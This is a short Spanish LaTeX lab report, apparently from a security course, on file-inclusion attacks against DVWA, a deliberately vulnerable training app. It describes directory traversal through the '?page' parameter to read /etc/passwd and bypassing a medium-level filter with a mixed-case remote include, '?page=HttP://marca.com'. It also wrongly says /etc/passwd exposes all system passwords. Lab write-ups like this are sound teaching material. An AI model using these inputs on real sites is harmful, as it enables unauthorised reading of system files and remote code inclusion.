 \documentclass[12pt,a4paper,oneside,onecolumn]{article}
\begin{document}
    \section{}
    EL primer exploit que vamos a probar en la DVWA es muy b\'asico, consiste en editar el \'indice \emph{?page} moviendonos de directorio hasta que demos con la ra\'iz y escupir \emph{/etc/passwd} y obtener todas las contrase\~nas del sistema
    \begin{figure}[!h]
		\centering
		\includegraphics[scale=0.6]{fileUp1.png}
		\caption{}
		\label{fig:1}
	\end{figure}
	\newline \newline 
	Para el exploit en remoto, incluso en dificultad media es bastante sencillo ya que si vamos al codigo fuente, vemos que se filtra de la siguiente forma:
	\begin{figure}[!h]
		\centering
		\includegraphics[scale=0.6]{fi1.png}
		\caption{}
		\label{fig:2}
	\end{figure}
	\newpage{}
    Por lo que podr\'iamos simplemente poner en may\'usculas el http para evitarlo:
    \begin{lstlisting}[language = html]
    ?page=HttP://marca.com
    \end{lstlisting}
    Como nos pide el enunciado, nos falta evadir en local file include los filtros de nivel medio. Al tener los filtros de la Figura 2, nos es facil ver que podemos acceder desde la ra\'iz con \emph{/etc/passwd}.
    
\end{document}
